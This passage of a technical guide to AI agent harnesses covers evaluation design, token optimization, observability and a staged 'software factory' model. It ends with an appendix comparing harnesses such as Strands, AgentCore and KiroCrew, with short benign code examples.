Make the system legible to agents as well as to people. An agent must be able to reconstruct the business domain from the code and the documentation alone. Prefer boring technology, because stable, composable APIs that appear often in training data are easier for a model to use correctly. Make the running system inspectable. Give each git worktree its own application instance, and expose DOM snapshots and screenshots from the browser. Put logs and metrics behind queryable APIs instead of in files that a human greps. Treat technical debt like garbage collection. An agent writes more code per day and copies whatever patterns it finds, so debt compounds faster. Recurring cleanup sessions that scan for drift from your principles and open small refactoring pull requests beat an annual cleanup that never gets scheduled.

Backpressure gates a single run. An eval measures the agent across a fixed set of tasks, outside the loop. It answers the question that no single run can answer: did this change make the agent better or worse? Without evals, every change to a prompt, a tool, or a model is a guess, and users find the regressions for you. Evaluate the harness and the model together, because that pairing is what ships.

A small vocabulary keeps the design precise. A task is one test, with an input and success criteria. A trial is one attempt at a task, and you run several because the agent is non-deterministic. A grader is logic that scores one aspect of a trial. The transcript is the full record of a trial, including messages, tool calls, and reasoning. The outcome is the final state of the environment. The last distinction matters most. An agent that says "your flight is booked" produced a transcript, and the outcome is whether a reservation exists in the database. Grade the outcome wherever you can reach it.

Start early and start small. [Anthropic recommends](https://www.anthropic.com/engineering/demystifying-evals-for-ai-agents) twenty to fifty tasks drawn from real failures as a first suite, because early changes have large effects and small samples detect them. Take the tasks from the checks you already run by hand before a release, and from the bug tracker and the support queue once users exist. Each task must be unambiguous, which means that two domain experts reach the same verdict independently, and everything the grader checks appears in the task text. Write a reference solution for every task. It proves that the task is solvable and that the grader accepts a correct answer. When a capable model fails a task on every trial, suspect the task before the model. Balance the set as well. If you only test that the agent searches when it must, you tune an agent that searches for everything, so include the cases where it must not search.

Graders come in three kinds, and a good suite uses all of them.

| Grader | How it scores                                                                        | Strength                  | Weakness                             |
| ------ | ------------------------------------------------------------------------------------ | ------------------------- | ------------------------------------ |
| Code   | Tests, state checks, string or regex matches, static analysis, tool-call checks      | Fast, cheap, reproducible | Brittle to valid variation           |
| Model  | A second model judges against a rubric, a reference answer, or a pairwise comparison | Handles open-ended output | Non-deterministic, needs calibration |
| Human  | Expert review or spot-check sampling                                                 | The reference standard    | Slow and expensive                   |

Use code graders where you can, model graders where you must, and human graders to calibrate the model graders. Grade what the agent produced rather than the path it took. A grader that demands an exact tool sequence punishes valid approaches that the author did not anticipate. Keep path checks for real invariants, such as a policy lookup before a refund. Give each rubric dimension its own judge, and let the judge answer "unknown" when the evidence is missing, so that it does not invent a verdict. Award partial credit on multi-part tasks, because an agent that finds the problem and fails the last step is better than one that fails at the start. Make the graders hard to game. Keep them out of the agent's reach, and prove each grader against a known correct answer before you trust its scores.

Agent behavior varies between runs, so one trial per task measures luck. Run several trials and pick the metric that matches the product. The pass@k metric is the probability that at least one of k trials succeeds, and it fits a tool where one good answer is enough. The pass^k metric is the probability that all k trials succeed, and it fits a customer-facing agent where users expect the same result every time. The two diverge fast. An agent with a 75% success rate per trial passes three trials in a row about 42% of the time. Give every trial a clean environment with no leftover files, caches, or git history from earlier trials, because shared state produces correlated failures and inflated scores. Measure the noise band by running the baseline several times, and count a change as a win only when the gain clears that band. Compare paired runs on the same tasks in the same environment. When one side of a pair produces no score, withhold the headline number instead of counting the gap as zero.

Keep two suites with different jobs. A capability suite asks what the agent can do, and it starts at a low pass rate so that there is a hill to climb. A regression suite asks whether the agent still does what it did, and it sits near 100%, so any drop means that something broke. When capability tasks saturate, move them into the regression suite, because a suite at 100% measures nothing new. Run both offline in CI on every harness change and every model upgrade. Online evaluation then scores a sample of production traces without reference answers, for quality, safety, and drift, and every failure it finds becomes a new offline task. Track tokens, cost, turns, and latency per task next to the pass rate, because a change that holds quality and doubles cost is a regression.

Static cases do not reach every behavior. A simulated user with a goal and a persona drives multi-turn conversations, which is the only way to evaluate a conversational agent at scale. Tool simulation replaces live APIs with simulated responses, so trials run safely and in parallel. Chaos testing injects tool timeouts, network errors, and corrupted responses, and it measures recovery. Red teaming attacks the agent and its sandbox to find what escapes.

Read the transcripts. A score says what happened and a transcript says why. Scores mislead in predictable ways: a grader that rejects a valid answer, a task that omits a requirement, or a harness limit that blocks the model. Read failed transcripts until each failure looks fair, which means the agent clearly did something wrong. Keep the suite as files in the repository next to the code, run it like unit tests, and let the people closest to the requirements contribute tasks. The loop that compounds runs from production traces to feedback, from feedback to new tasks, and from new tasks to a harness change that must pass the suite. The same suite makes model upgrades cheap. Run it on the new model and you know within hours which bets paid off.

Supporting frameworks: Strands (A.1), AgentCore (A.2), KiroCrew (A.3), Pi (A.4), LangChain (A.5), OpenAI (A.6), Stirrup (A.7).

---
---

# Part II: Running agents at scale

---

## 11. Token optimization

Token spend is the operating cost of an agent, and it grows with every session you add. The techniques below run in order of return on effort.

<div class="figure">

</div>

Cap every tool result at a fixed threshold, such as the 1,500 tokens in section 4.3, because most of a long tool result is noise to the model. Offload the full result to storage as well, and leave a preview and a reference in context. Offloading and truncation together are what make a long-running agent affordable. Trigger compaction on a fraction of the context window rather than on a turn count, as section 4.2 describes.

Next, shrink the system prompt. Most system prompts still carry instructions the model no longer needs. Delete a paragraph, measure, and repeat. Stop declaring tools the model does not use, and move rarely used capability into skills, which cost far less context to advertise than tool declarations, as sections 3.2 and 3.3 show. For multi-step work, let the model write one script that loops instead of making twenty tool calls, because each avoided round trip also avoids resending the prefix.

Route by difficulty with care. A small model on easy turns and a large one on hard turns saves money. A misrouted hard task, however, costs more to recover from than the routing saved. Route only on a signal you trust. Generate structured output inside the main loop rather than in a second formatting call, because that second call is pure overhead.

None of this works without measurement. Record input, output, and reasoning tokens, cost, and per-tool call counts for every run. Record the timing of every model response and every tool call, so you can tell a slow model from a slow tool. The harness itself has parameters, which are the system prompt, the tool descriptions, and the skills. You can fit those parameters to data the way a model is trained, with rollouts in and rewards out, rather than guess them.

Supporting frameworks: Strands (A.1), AgentCore (A.2), Pi (A.4), LangChain (A.5), Stirrup (A.7).

---

## 12. Observability, durability, and evolving the harness

Instrument every tool call, every model response, and every context assembly, because the first misbehavior in production needs all three. Trace the assembled context as well as the calls. When an agent does something inexplicable, the question is always what it saw, and only a trace of the prompt answers it. Use an open trace standard instead of a vendor format, so that traces move between tools.

<div class="figure">

</div>

Durable execution means that the harness saves a checkpoint after each step. A retry then replays the run, reuses the stored results of finished steps, and resumes at the first unfinished one. Add it when a run lasts long enough that losing it hurts. For a thirty-second run, retry the whole thing.

Every component in a harness encodes an assumption about something the model cannot do, and those assumptions go stale as models improve. An unpruned harness accumulates workarounds for problems that no longer exist, and each one costs tokens and adds a failure mode. On every model upgrade, remove the scaffolding that is no longer load-bearing, and add components for capabilities the new model makes reachable. Test by removing one component at a time and rerunning the suite from section 10. If you remove five at once and quality drops, you learn nothing about which one mattered. The context resets in section 4.4 are a live example. They compensate for weak long-context handling, and they turn into pure cost once the model handles long context well.

The investment case splits in two directions. For vertical, integration-heavy work, a custom harness gains value, because the integration with CI/CD, monitoring, feature flags, and internal services is the product. For general work the opposite happens. As long-term memory moves inside the model, context management moves out of harness code, and tool use and routing are likely to follow. Better models absorb the stable use cases, and the nuanced ones keep needing a harness. A lawyer who reviews a large case file still saturates the context however good the model gets, and the harness decides whether that workflow is usable.

Supporting frameworks: Strands (A.1), AgentCore (A.2), KiroCrew (A.3), Pi (A.4), LangChain (A.5), OpenAI (A.6).

---

## 13. The software factory

The earlier chapters improve one agent. A software factory changes the unit of work from a session to a stage on a production line. The change is in how work is organized, and the loop inside each session stays the same.

Teams reach the factory in five stages, and the stage you are on tells you what breaks next. At stage 1, one person drives one session by hand, and that person's attention is the bottleneck. At stage 2, the person opens more sessions, explains the project again in each one, and becomes the only link between them. Stage 3 adds memory so that sessions start warm, and a dashboard to track them. It also adds scheduled sessions that start without a human, and workflows that chain the steps of one job. One person can then run many more sessions but still reads every update. Stage 4 replaces the workflows with a pipeline. Stage 5 hands the chores of running sessions to a coordinating agent. The step from stage 2 to stage 3 is the one that pays. Its cheapest form is one file in the repository that every session reads, holding the conventions and the corrections you keep repeating.

<div class="figure">

</div>

The line between stage 3 and stage 4 is the difference between a workflow and a pipeline. In a workflow, step three waits for step two. In a pipeline, stages such as triage, implement, review, and merge each run their own sessions and share nothing but a queue. Each stage takes the next item the moment it lands, so every stage stays busy without knowing anything about the others. Build a pipeline before you build an orchestrator. Labels on the issues in a tracker make an adequate queue, with one session type per label. A pipeline keeps one limit: its shape is fixed. When a result invalidates the plan, a human revises the plan and redirects the affected work.

<div class="figure">

</div>

A mature factory runs stages from outcome definition through specification, implementation, review, testing, deployment, and incident response. It routes each change by risk class, so a documentation fix and a payments change do not travel the same path. The enabling investment is colocating documentation with source, and orchestration comes second. This is section 6.2 applied to an organization. Once every stage can read the knowledge it needs beside the code, the bottleneck moves to CI/CD throughput. Agents open changes faster than a pipeline sized for a team of humans can build and test them. The fast feedback loop from section 10 stops being about agent iteration and becomes a capacity planning problem.

<div class="figure">

</div>

At pipeline scale, human attention is the limit again. Every session carries five duties: define its goal, start it, watch it, judge its result, and decide what happens next. Across dozens of sessions those duties are a full-time job. Stage 5 moves them to a coordinating agent that lives outside any single session. It creates, seeds, watches, and closes sessions and reacts to results across session boundaries, while the human keeps the goal. Do not start at stage 5. Write down the five duties, notice which one eats your day, and automate that one first. At larger scale one coordinator becomes a bottleneck of its own, so split coordination across agents with distinct roles, such as planning, execution, and review.

The governance problems arrive with the second agent, and none of them retrofit cheaply. Coordination must be explicit and durable, recording who asked for what, who owns which task, and what was tried and rejected. If that record lives only in a model's context, the next compaction erases it. Memory needs boundaries that define what can be remembered, by which agent, for which project, and visible to whom. Without them, one engineer's correction steers a session on another team's code. The host must enforce permissions, because a prompt can only request them. The permissions cover what an agent can do, in which repository, against which environment, and what needs a human. Every command, file change, approval, and denial must land in a record the agent cannot edit, because trust comes from a history that anyone can audit. Start the audit trail and the permission control on day one. Both are cheap to add with two sessions and expensive to add later.

Coordination also carries its own token bill, separate from the work, for keeping sessions warm, polling status, routing results, and supporting fan-out. At large session counts, that overhead can decide whether the factory is worth running. Use cheaper models for routine supervision, and replace supervision prompts with deterministic scripts wherever a script can decide. Wake sessions with minimal context instead of full history, and reuse session knowledge instead of rebuilding it. Account for cost per task and per stage, so that the expensive stage is visible.

The division of labor holds at every scale. Humans steer and agents execute. Engineers design the environment, state the intent, and build the feedback loops, and agents write the code. Expect eventual consistency rather than first-pass correctness, because most problems resolve through more loops with better inputs.

Supporting frameworks: Strands (A.1), AgentCore (A.2), KiroCrew (A.3), OpenAI (A.6).

---
---

# Appendix: Seven harnesses compared

The appendix compares seven harnesses that range from a minimal template to a complete managed platform. Four are frameworks you build on, which are Strands, Pi, LangChain, and Stirrup. Three are platforms whose internals are worth studying whether or not you adopt them, which are AgentCore, KiroCrew, and OpenAI. Details are current as of September 2026. Each section opens with a coverage wheel that reuses the harness map from Part I. A dark segment means the framework builds that part in, a light segment means partial or provider-dependent support, and an empty segment means you build it. The shading is the assessment of this guide.

| Dimension          | Strands                                                | AgentCore                                  | KiroCrew                           | Pi                                 | LangChain v1                     | OpenAI                        | Stirrup                                              |
| ------------------ | ------------------------------------------------------ | ------------------------------------------ | ---------------------------------- | ---------------------------------- | -------------------------------- | ----------------------------- | ---------------------------------------------------- |
| Owner              | AWS                                                    | AWS                                        | Amazon                             | Earendil Works                     | LangChain                        | OpenAI                        | Artificial Analysis                                  |
| Shape              | SDK plus full harness                                  | Managed harness on serverless Runtime      | Local-first platform               | CLI plus packages                  | Framework plus runtime           | Three composed surfaces       | Template you modify                                  |
| Languages          | Python, TypeScript                                     | Configuration, or any framework on Runtime | JSON specs plus MCP                | TypeScript                         | Python, TypeScript               | Python, TypeScript            | Python, TypeScript                                   |
| Extension point    | Hooks, plugins, SOPs                                   | Tools, skills, lifecycle hooks             | Agent JSON plus MCP servers        | TypeScript extensions              | Middleware                       | Handoffs and capabilities     | Tools and providers                                  |
| Context management | Default on, with offloading                            | Truncation: sliding window or summary      | Session stores                     | Auto-compaction in sessions        | Middleware                       | Server-side compaction        | Default on at 0.7                                    |
| Prompt caching     | Default on, per provider                               | Provider-dependent                         | Provider-dependent                 | Provider-dependent                 | Provider-dependent               | Automatic                     | Provider-dependent                                   |
| Sandboxing         | Strands Shell, level 2                                 | microVM per session                        | Seatbelt per execution             | Documented patterns, none built in | None built in                    | Sandbox agents, levels 1 to 5 | Temp directory, Docker, or E2B backend               |
| Multi-agent        | Tools, swarms, graphs, A2A                             | A2A on Runtime, Step Functions             | Gateway-brokered dispatch          | Extensions                         | Graphs and handoffs              | Handoffs primitive            | `to_tool()` with nesting                             |
| Permissions        | Declarative binds and allowlists                       | IAM, token vault, Cedar policy             | Signed capability tokens           | Runs as the user                   | None                             | Sandbox plus approvals        | None                                                 |
| Evaluation         | Strands Evals: evaluators, simulators, chaos, red team | AgentCore Evaluations, A/B tests           | Deterministic acceptance verdicts  | `packages/evals` on vitest-evals   | AgentEvals, OpenEvals, LangSmith | SDK traces into Promptfoo     | None built in, used as the harness inside benchmarks |
| Best when          | You want strong defaults today                         | You want managed production on AWS         | You need local, auditable autonomy | You want a hackable terminal agent | You need explicit state          | You are already on OpenAI     | You want to read the whole thing                     |

## A.1 Strands Agents and Strands harness

Strands is an open-source toolkit from AWS under Apache 2.0, and it splits into three separable parts, which are an SDK, a harness, and an evaluation library. The September 2026 release added Strands harness, a fully assembled, customizable agent that you run locally or deploy anywhere, created in one line.

```python
from strands_harness import create_harness

agent = create_harness(context_manager="agentic")
```

<div class="diagram fig-split">
<div class="figure-inline">

</div>
<div class="fig-arch">
<div class="arch-cols">
<div class="diagram-stack">
<div class="layer"><div class="layer-title">Entry points</div><span class="chip">your application</span><span class="chip">Strands CLI</span><span class="chip">any MCP client through strands-shell --mcp</span></div>
<div class="v-arrow">↓</div>
<div class="layer primary"><div class="layer-title">Strands harness: create_harness()</div><span class="chip">context manager and offloader</span><span class="chip">prompt caching</span><span class="chip">session resumption</span><span class="chip">subagents</span><span class="chip">skills</span><span class="chip">shell, file, web tools</span></div>
<div class="v-arrow">↓</div>
<div class="layer aws"><div class="layer-title">Strands Agents SDK</div><span class="chip">agent loop and hooks</span><span class="chip">agents-as-tools, swarms, graphs, A2A</span><span class="chip">Bedrock, Anthropic, OpenAI, Google, Ollama</span></div>
</div>
<div class="diagram-stack">
<div class="layer success"><div class="layer-title">Strands Shell</div>level-2 sandbox</div>
<div class="layer success"><div class="layer-title">Strands Evals</div>evaluators and simulators</div>
<div class="layer warn"><div class="layer-title">Harness Optimizer</div>fits prompts and skills</div>
<div class="layer warn"><div class="layer-title">Agent Control, Agent SOPs</div>guardrails and workflows</div>
</div>
</div>
<div class="diagram-caption">Runs locally or anywhere, including a session-isolated AgentCore Runtime micro-VM.</div>
</div>
</div>

Install it with `pip install strands-harness` or `npm install @strands-agents/harness`, and the Strands CLI, built on the same harness, installs with `npm install -g @strands-agents/cli`. What you get is context management on by default with automatic and agentic strategies plus a context offloader, prompt caching on by default and configured per provider, session resumption from a session ID, subagent delegation, shell and file and web tools, automatic skill loading, and the full set of multi-agent patterns covering agents-as-tools, swarms, graph workflows, and A2A. It runs models across Amazon Bedrock, Anthropic, OpenAI, Google, and local Ollama.

In [AWS benchmarks](https://strandsagents.com/blog/introducing-strands-harness/), Strands harness cost 28% less than Claude Code, Codex, and other harnesses on the same Claude and GPT models across six benchmarks, at nearly equal accuracy. With Fable 5, it cost 77% less than Claude Code and scored higher on Terminal Bench 2.1. The SDK [scored 99.95% on ARC-AGI-3](https://strandsagents.com/blog/our-production-sdk-hit-99-95-on-arc-agi-3/) in August 2026 with the same minimal harness that ships to production. Around the core sit Strands Shell for level-2 sandboxing, Strands Evals for chaos testing and red teaming, Harness Optimizer for fitting harness parameters to data, Agent Control for runtime guardrails, and Agent SOPs for markdown workflows.

Strands Evals is the most complete evaluation library of the seven. It reached 1.0 in June 2026 and installs as `strands-agents-evals`. An `Experiment` pairs `Case` objects, each holding an input, an expected output, and metadata, with a list of evaluators, and runs them against a task function.

```python
from strands_evals import Case, Experiment
from strands_evals.evaluators import OutputEvaluator

cases = [Case[str, str](name="capital", input="What is the capital of France?",
                        expected_output="Paris")]
evaluator = OutputEvaluator(rubric="Score 1.0 if the answer is correct, else 0.0.")
report = Experiment[str, str](cases=cases, evaluators=[evaluator]).run_evaluations(get_response)
```

Evaluators score at four granularities through `EvaluationLevel`, which are `OUTPUT_LEVEL`, `TOOL_LEVEL`, `TRACE_LEVEL`, and `SESSION_LEVEL`. Model-judged quality comes from `OutputEvaluator` with your own rubric, `HelpfulnessEvaluator`, and `GoalSuccessRateEvaluator`. Tool use comes from `ToolSelectionAccuracyEvaluator` and `ToolParameterAccuracyEvaluator`, and the path from `TrajectoryEvaluator`. Deterministic evaluators such as `Equals`, `ToolCalled`, and `StateEquals` run with no judge for CI. `ActorSimulator` drives goal-directed multi-turn conversations, chaos testing injects tool timeouts and corrupted responses through plugin hooks, and an experimental red-team module runs attack strategies such as Crescendo and PAIR. Traces map in from OpenTelemetry spans, which is why the library also scores agents built on other frameworks. The `strands-evals` CLI turns all of this into a CI gate. The `validate` command schema-checks an experiment file, and `run` fails the build through `--fail-on` exit-code rules. The `generate` command synthesizes starter cases from a tool description, and `diagnose` runs root-cause analysis on a failed session.

The strengths are the best defaults available and the best published evidence for them, with separable pieces you can adopt one at a time and Python and TypeScript at parity. The weakness is a large surface area carrying many named products, which takes time to navigate. Pick it when you want a production harness today and care about cost.

## A.2 Amazon Bedrock AgentCore: Runtime and harness

AgentCore is the AWS platform for running agents in production, and it offers two ways to run the loop. AgentCore Runtime is serverless hosting where the loop is your own code, in any framework or in none. You wrap the code with the `BedrockAgentCoreApp` entrypoint, package it for ARM64 or deploy the code directly, and serve it over HTTP, MCP, or A2A. The AgentCore harness is a managed loop that you declare as configuration, which means the model, the system prompt, the tools, the skills, the memory, and the limits. The harness is powered by Strands Agents and runs inside Runtime, so CloudTrail records its operations under `AWS::BedrockAgentCore::Runtime`. The two options are a spectrum rather than a fork, and the harness itself carries no separate charge.

```python
import boto3

client = boto3.client("bedrock-agentcore", region_name="us-west-2")
response = client.invoke_harness(
    harnessArn=HARNESS_ARN,
    runtimeSessionId=SESSION_ID,          # 33 characters or more, reuse it to continue
    allowedTools=["shell", "file_*"],
    messages=[{"role": "user", "content": [{"text": "Fix the failing test."}]}],
)
for event in response["stream"]:
    if "messageStop" in event:
        print(event["messageStop"]["stopReason"])
```

<div class="diagram fig-split">
<div class="figure-inline">

</div>
<div class="fig-arch">
<div class="diagram-stack">
<div class="layer"><div class="layer-title">Entry points</div><span class="chip">invoke_harness</span><span class="chip">InvokeAgentRuntime</span><span class="chip">agentcore CLI</span><span class="chip">Step Functions InvokeHarness state</span></div>
<div class="v-arrow">↓</div>
<div class="layer primary"><div class="layer-title">AgentCore harness: the managed loop, powered by Strands Agents</div><span class="chip">model, prompt, tools, skills as configuration</span><span class="chip">limits and truncation</span><span class="chip">lifecycle hooks</span><span class="chip">versions and endpoints</span></div>
<div class="v-arrow">↓ runs inside</div>
<div class="layer aws"><div class="layer-title">AgentCore Runtime</div><span class="chip">microVM per session</span><span class="chip">filesystem and shell</span><span class="chip">your own loop in any framework</span><span class="chip">HTTP, MCP, A2A</span><span class="chip">per-second billing</span></div>
<div class="v-arrow">↓</div>
<div class="grid-3">
<div class="layer"><div class="layer-title">Memory</div>short-term events, long-term strategies per actor</div>
<div class="layer"><div class="layer-title">Gateway, Identity, Policy</div>governed MCP tools, token vault, Cedar</div>
<div class="layer"><div class="layer-title">Browser, Code Interpreter</div>managed tools the loop can call</div>
</div>
<div class="layer success"><div class="layer-title">Observability and Evaluations</div><span class="chip">CloudWatch traces from the first call</span><span class="chip">built-in evaluators</span><span class="chip">online evaluation</span><span class="chip">A/B tests</span></div>
</div>
</div>
</div>

Every session runs in its own microVM with a filesystem and a shell. A session stays warm for `idleRuntimeSessionTimeout`, 900 seconds by default, and lives at most `maxLifetime`, which is 28,800 seconds or eight hours. Short-term and long-term memory persist after a microVM is replaced, and S3 Files or EFS mounts share data across sessions and harnesses. Runtime bills per second for the CPU and memory that a session actually consumes, and it does not bill CPU while the agent waits on model or tool I/O.

The harness makes most of Part I a configuration field. Tools come in five declarative types: `remote_mcp`, `agentcore_gateway`, `agentcore_browser`, `agentcore_code_interpreter`, and `inline_function`, which hands the call back to your code for a human approval. The default `shell` and `file_operations` tools add about 900 input tokens to every model request, so scope them with `allowedTools` patterns such as `@builtin/shell` or `@git/read_*`. The limits `maxIterations`, 75 by default, `timeoutSeconds`, 3,600 by default, and `maxTokens` are configuration, and context truncation uses `sliding_window` or `summarization`. Every stream ends with a `stopReason`, and `end_turn`, `max_iterations_exceeded`, `timeout_exceeded`, `max_output_tokens_exceeded`, and `hook_stopped` each need different handling. Lifecycle hooks send `before_invocation`, `before_tool_call`, `after_tool_call`, and `after_invocation` events to Lambda, SNS, or EventBridge, and only a Lambda target can return `allow` or `deny`.

Separate services surround the loop, and the harness wires them in by configuration. Memory stores short-term events and long-term records from semantic, summarization, user-preference, and episodic strategies, scoped per actor. Gateway turns APIs, Lambda functions, and MCP servers into governed MCP tools, and a policy engine enforces Cedar policies on them in `LOG_ONLY` or `ENFORCE` mode. Identity keeps OAuth and API-key credentials in a token vault, so a remote MCP header can name a credential provider ARN that resolves only at invocation time. Browser and Code Interpreter are managed tools. Observability writes traces, logs, and metrics to CloudWatch from the first invocation. AgentCore Evaluations runs built-in evaluators such as `Builtin.Helpfulness` on demand, in batch, or online, and the harness adds A/B tests with per-session significance and recommendations for prompts and tool descriptions. Immutable versions and named endpoints make rollback a matter of pointing an endpoint at an earlier version, and the `InvokeHarness` state in Step Functions puts a harness inside a larger workflow.

Leave the harness for Runtime only when the loop needs code that configuration cannot express. That covers your own framework, graph or workflow control flow, bidirectional streaming, domain-specific pruning of a tool result, and termination on a business rule. Limits are not a reason to leave, because the harness already sets them. The harness exports to Strands code that runs on Runtime, so you can start as configuration and graduate to code without a rewrite.

The strength is that every concern from Part I is a managed service with IAM, CloudTrail, and VPC networking, and session isolation comes without any work. The costs are that it runs only on AWS, that the harness offers no choice of framework and no graph flows, and that charges spread across several meters, which are Runtime, the model, Memory, Gateway, the tools, and CloudWatch. Pick it when you need isolated multi-user sessions in production on AWS and do not want to build the substrate yourself. Start with the harness, and move to Runtime when the loop needs code.

## A.3 KiroCrew

KiroCrew is Amazon's local-first agent platform. Its API, CLI, and desktop surfaces are thin clients of one shared substrate, and that substrate implements the governance controls that chapter 13 describes.

<div class="diagram fig-split">
<div class="figure-inline">

</div>
<div class="fig-arch">
<div class="diagram-stack">
<div class="layer"><div class="layer-title">Surfaces</div><span class="chip">desktop and IDE</span><span class="chip">CLI</span><span class="chip">API</span><span class="chip">cron and autonudge</span></div>
<div class="v-arrow">↓ every tool call</div>
<div class="layer aws"><div class="layer-title">Gateway</div><span class="chip">signed capability tokens per agent, tool, session</span><span class="chip">safe-tool allowlists</span><span class="chip">audit log</span></div>
<div class="v-arrow">↓</div>
<div class="grid-3">
<div class="layer primary"><div class="layer-title">Sessions</div>a Seatbelt profile per execution</div>
<div class="layer primary"><div class="layer-title">Conductors</div>goal ledger, pipeline fleet, accept_eval.py verdicts</div>
<div class="layer primary"><div class="layer-title">Local stores</div>SQLite memory, JSON agent specs, skills, steering</div>
</div>
</div>
</div>
</div>

The gateway is the central component. Every tool call flows through a local service that checks the call against signed capability tokens scoped per agent, per tool, and per session, and the call runs only if the token grants that specific action. This is what makes an agent such as `kirocrew-heartbeat` safe to run unattended, because a safe-tool allowlist is enforced in the gateway rather than in the prompt, so a drifting agent cannot invoke a write tool it was never granted. Configuration and audit logs live under `~/.kiro/crew/`, where you can inspect what the gateway believes. Compared against the sandbox designs in section 9, the gateway is an authorization boundary rather than an execution boundary, and both are necessary because they catch different failures.

